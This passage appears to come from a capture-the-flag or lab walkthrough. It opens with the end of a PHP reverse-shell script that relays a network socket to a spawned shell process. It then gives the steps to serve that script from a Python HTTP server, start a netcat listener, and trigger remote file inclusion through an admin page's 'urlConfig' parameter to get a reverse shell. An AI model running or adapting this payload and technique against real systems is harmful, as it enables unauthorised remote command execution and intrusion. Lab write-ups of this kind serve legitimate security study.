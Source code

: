 ```bash
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

start a python server `python -m http.server 8000`

then start a listener: `nc -lvnp 444`

now we go to this page:

`<machine_ip>/<redacted>/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.20.116:8000/php.php`

And we have our reverse shell.
